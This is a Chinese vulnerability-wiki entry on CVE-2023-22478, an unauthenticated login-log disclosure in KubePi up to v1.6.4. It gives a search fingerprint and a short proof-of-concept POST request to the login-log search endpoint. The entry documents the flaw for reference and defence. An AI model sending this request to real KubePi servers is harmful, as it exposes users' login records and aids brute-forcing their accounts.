




# KubePi LoginLogsSearch 未授权访问漏洞 CVE-2023-22478

<!-- vulwiki-editorial:start -->
## 校订与适用边界


### 本次正文校订

- 按实际内容修正 1 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- <=1.6.4未进元数据，缺明确修复版本/补丁URL
- 请求Host缺失且&&应规范为&
- 登录日志泄露直接影响与后续爆破推演分开
- 补丁源码仅截图应转文本

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

KubePi 是一个现代化的 K8s 面板。KubePi 允许管理员导入多个 Kubernetes 集群，并且通过权限控制，将不同 cluster、namespace 的权限分配给指定用户。它允许开发人员管理 Kubernetes 集群中运行的应用程序并对其进行故障排查，供开发人员更好地处理 Kubernetes 集群中的复杂性。

KubePi LoginLogsSearch 方法下的接口存在未授权访问漏洞，攻击者通过漏洞可以未授权获取用户的登录日志信息，进一步爆破用户。

## 漏洞影响

```
KubePi <= v1.6.4
```

## 网络测绘

```
"kubepi"
```

## 漏洞复现

登录页面



补丁中对路由加了身份验证



对应的接口为



验证POC

```http
POST /kubepi/api/v1/systems/login/logs/search?pageNum=1&&pageSize=10 HTTP/1.1
Content-Type: application/json

{}
```



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
